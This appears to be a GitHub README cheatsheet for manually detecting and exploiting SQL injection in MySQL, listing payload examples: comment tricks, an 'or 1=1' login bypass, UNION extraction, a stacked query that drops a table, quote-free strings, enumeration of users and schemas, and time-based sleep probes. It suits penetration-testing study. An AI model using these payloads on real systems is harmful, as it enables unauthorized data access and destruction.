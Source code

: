 # MySQL-SQL-Injection-Cheatsheet
Tips for manually detect &amp; exploit SQL injection Vulnerability : MySQL

# Comment in MySQL <br>
1.  \# <br>
2.  -- (After double dash put space) <br>
3.  /\*\*/  <br>
 Ex: SELECT * from users/**/WHERE username='rk' AND password='123'; /*SQL keyword is case insansitive */  <br>
 
# MySQL LIMIT Clause  <br>
 1. The LIMIT clause is used to specify the number of records to return.  <br>
  Ex: SELECT * FROM users where username='' or 1=1 LIMIT 1; /*Without limit keyword it will return multiple result. it will help in auth bypass*/  <br>
  
# MySQL UNION Operator  <br>
 1. The UNION operator is used to combine the result-set of two or more SELECT statements.  <br>
    a. Every SELECT statement within UNION must have the same number of columns.  <br>
    b. The columns must also have similar data types.  <br>
    c. The columns in every SELECT statement must also be in the same order.  <br>
  Ex 1: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password'; /* Select from same table */  <br>
  Ex 1: Select  student_id, student_name, student_branch from students where student_id=1 UNION SELECT 1, 'hack' 'password' FROM hack.users;  /* Select from different DB and table */  <br>
  
# MYSQL Stack query <br>
1. MySQL does not support stack query with PHP, ASP.NET, Java <br>
Ex: SELECT * FROM products WHERE id = 1; DROP users-- /* stack query example */ <br>
  
# Substring  <br>
  1. SUBSTRING('MySQL', 3, 2)  <br>

# String without quote(' or ") <br>
1. using CONCAT function <br>
Ex: SELECT CONCAT(CHAR(77),CHAR(89),CHAR(83),CHAR(81),CHAR(76)); /* return MYSQL string */  <br>
2. using hex value <br>
Ex: SELECT 0x4d7953514c;  /* return MYSQL string */  <br>

# Database version <br>
1. SELECT @@version <br>

# Current Database <br>
Ex: SELECT database(); <br>

# Current Database User <br>
Ex 1: SELECT user(); <br>
Ex 2:SELECT system_user(); <br>

# List DBA account <br>
Ex: SELECT host, user FROM mysql.user WHERE Super_priv = 'Y'; <br>

# Database contents <br>
1. Selecting all the tables in MySQL along with DB <br>
Ex: SELECT * FROM information_schema.tables; <br>
2. electing all the columns in perticular table <br>
Ex: SELECT * FROM information_schema.columns WHERE table_name = 'TABLE_NAME'; <br>

# Order by <br>
1. The ORDER BY keyword is used to sort the result-set in ascending or descending order. But these keywords are used to identify no of columns present in table. <br>
Ex: SELECT * FROM Customers ORDER by 7; /* if there are 6 columns in table this query gives SQL error. */ <br>

# Time Delay
Ex 1: SELECT sleep(10)  /* Sleep for 10 sec */ <br>
Ex 2: SELECT IF(CONDITION-HERE,sleep(10),'a'  /* Sleep for 10 sec if codition is True*/ <br>



  
    
